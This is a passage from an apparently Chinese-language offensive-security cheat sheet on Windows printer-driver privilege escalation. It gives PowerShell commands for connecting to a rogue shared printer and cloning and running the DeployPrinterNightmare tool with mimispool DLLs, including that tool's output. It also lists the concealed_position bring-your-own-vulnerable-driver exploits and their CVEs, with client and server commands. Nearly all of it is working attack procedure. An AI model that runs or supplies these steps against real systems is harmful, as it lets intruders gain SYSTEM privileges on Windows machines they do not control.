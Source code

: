 执行驱动程序

```ps1
$serverName  = 'dc.purple.lab'
$printerName = '通用特权打印机'
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

### PrinterNightmare

```ps1
git clone https://github.com/Flangvik/DeployPrinterNightmare
PS C:\adversary> FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
[<3] @Flangvik - TrustedSec
[+] 复制 C:\Windows\system32\mscms.dll 到 C:\Windows\system32\6cfbaf26f4c64131896df8a522546e9c.dll
[+] 复制 64mimispool.dll 到 C:\Windows\system32\spool\drivers\x64\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] 复制 32mimispool.dll 到 C:\Windows\system32\spool\drivers\W32X86\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] 添加打印机驱动程序 => 通用 / 纯文本！
[+] 添加打印机 => EasySystemShell！
[+] 设置64位注册表键
[+] 设置32位注册表键
[+] 设置'*'注册表键
```

```ps1
PS C:\target> $serverName  = 'printer-installed-host'
PS C:\target> $printerName = 'EasySystemShell'
PS C:\target> $fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
PS C:\target> Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
PS C:\target> Add-Printer -ConnectionName $fullprinterName
```

### 自带漏洞

隐蔽位置：https://github.com/jacob-baines/concealed_position

* ACIDDAMAGE - [CVE-2021-35449](https://nvd.nist.gov/vuln/detail/CVE-2021-35449) - Lexmark通用打印驱动程序LPE
* RADIANTDAMAGE - [CVE-2021-38085](https://nvd.nist.gov/vuln/detail/CVE-2021-38085) - Canon TR150打印驱动程序LPE
* POISONDAMAGE - [CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363) - Ricoh PCL6打印驱动程序LPE
* SLASHINGDAMAGE - [CVE-2020-1300](https://nvd.nist.gov/vuln/detail/CVE-2020-1300) - Windows打印后台处理程序LPE

```powershell
cp_server.exe -e ACIDDAMAGE
# Get-Printer
# 设置"高级共享设置" -> "关闭密码保护共享"
cp_client.exe -r 10.0.0.9 -n ACIDDAMAGE -e ACIDDAMAGE
cp_client.exe -l -e ACIDDAMAGE
```
